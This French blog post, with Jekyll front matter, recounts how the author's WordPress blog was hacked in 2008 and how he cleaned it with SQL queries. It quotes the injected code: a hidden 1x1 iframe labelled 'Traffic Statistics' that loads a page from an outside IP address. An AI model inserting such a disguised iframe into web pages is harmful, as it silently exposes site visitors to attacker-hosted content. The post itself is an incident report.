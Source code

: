 ```yaml
---
id: 515
disqus_id: 515 http://regis.decamps.info/blog/?p=515
title: 'Ce blog s’est fait kacker'
date: 2008-05-12T23:41:08+00:00
author: Régis
layout: post
guid: http://regis.decamps.info/blog/2008/05/ce-blog-sest-fait-kacker/
permalink: /blog/2008/05/ce-blog-sest-fait-kacker/
tmac_last_id:
  - ""
dsq_thread_id:
  - "564520470"
categories:
  - Général
  - Informatique
tags:
  - Hacking
  - Sécurité
---
```

Attention, mon blog a été hacké.

Google indiquait que mon blog était &lsquo;potentiellement dangereux’. J’ai d’abord cru qu’ils avaient fumé ; mais en fait non. 

Par exemple, quelques posts contenaient
  
`<br />
<!-- Traffic Statistics --> <iframe src=http://xx.155.8.157/iframe/wp-stats.php width=1 height=1 frameborder=0></iframe> <!-- End Traffic Statistics --><br />
` 

WordPress a connu un certain nombre de failles de sécurité, et j’ai un peu de mal à suivre les mises à jour. 

J’ai fait le ménage à coup de requêtes SQL. Deux articles étaient concernés:

  * <http://regis.decamps.info/blog/2008/04/liso-approve-loffice-open-xml/>
  * <http://regis.decamps.info/blog/2007/10/boutique-ferrari/>
